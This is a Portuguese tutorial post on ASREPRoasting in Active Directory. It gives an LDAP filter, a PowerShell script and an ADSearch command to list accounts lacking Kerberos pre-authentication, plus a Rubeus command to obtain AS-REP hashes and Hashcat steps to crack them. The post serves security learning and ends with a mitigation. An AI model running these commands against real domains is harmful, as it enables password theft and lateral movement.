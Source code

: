 ```yaml
---
title: "ASREPRoasting"
excerpt: "Teoria e prática sobre ASREPRoasting."
categories:
  - Hacking
tags:
  - ASREPRoasting
  - Active Directory
  - SPN
  - LDAP
  - ADSearch
  - Rubeus
  - Hahscat

toc: true
---
```


## Teoria

ASREPRoasting é um ataque no ambiente do Active Directory que explora um recurso do protocolo de autenticação Kerberos chamado AS-REP (Authentication Service Reply).

As contas que não necessitam de pré-autenticação (atributo  DONT_REQ_PREAUTH ativado) estão suscetíveis a esse tipo de ataque. Um invasor pode solicitar um ticket Kerberos KRB_AS_REQ sem o autenticador para qualquer usuário que não tenha o recurso de pré-autenticação habilitado.

Em posse da resposta KRB_AS_REP do controlador de domínio, o invasor pode descobrir a senha da vítima com ataque de força bruta offline, usando John The Ripper com o modo `krb5asrep` ou com Hashcat.

**OBS: Com a senha, a movimentação lateral se torna possível.**

![Untitled](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/a4b7ca11-3a48-40f7-9d40-0729fcc7f9d5)

## Extração de Contas Sem Pré-autenticação com LDAP

Pode-se realizar um filtro LDAP para extrair as contas que não necessitam de pré-autenticação Keberos:


```powershell
(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)
```

![Untitled 1](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/53d7eea2-028a-4c9c-adcf-3939d025d04e)

![Untitled 2](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/86342000-9f25-4563-b951-7d68a08e7ddb)

Essas são as 3 contas sem pré-autenticação.

## Extração de Contas Sem Pré-autenticação com Powershell

O mesmo filtro será usado através de um script poweshell.

```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.Filter = "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
$results = $search.FindAll()

foreach ($result in $results) {
    $userEntry = $result.GetDirectoryEntry()
    $uac = $userEntry.Properties["userAccountControl"].Value
    $doNotReqKerbPreauth = if ($uac -band 4194304) { $true } else { $false }

    Write-Host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
    Write-Host "DoNotReqKerbPreauth : $doNotReqKerbPreauth"
    Write-Host ""
}
```

![Untitled 3](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/0f119196-d44d-480a-83c2-80c3a52f13b7)

## Extração de Contas Sem Pré-autenticação com ADSearch

```powershell
ADSearch.exe --search "(&(sAMAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
```

![Untitled 4](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/a993229e-1e96-4d81-932d-aa9f46bfcdf0)

## Ataque

O ASREPRoasting pode ser realizado através do Rubeus:

```powershell
Rubeus.exe asreproast /nowrap
```

- A opção “nowrap” remove a quebra de linha (não obrigatório).

![Untitled 5](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/eb2a16b1-7f98-4d79-bdbc-aec11f914cd1)

## Quebrando a Senha

O Hashcat será usado para quebrar a senha.

![Untitled 6](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/33dd8409-071b-49e6-9e37-4320447b14ff)

- A configuração “-m 18200” é para quebrar senhas Kerberos 5 AS-REP (etype 23).
- O arquivo “maxraybrandt-asreproast” possui o hash encontrado.
- O arquivo “pass” contém as possíveis senhas.

![Untitled 7](https://github.com/BieAnimaton/BieAnimaton/assets/52220244/b6ee7bb4-334d-4f80-9909-7104339c9864)

## Medidas de Proteção

- Ativar a pré-autenticação Kerberos para todos os usuários.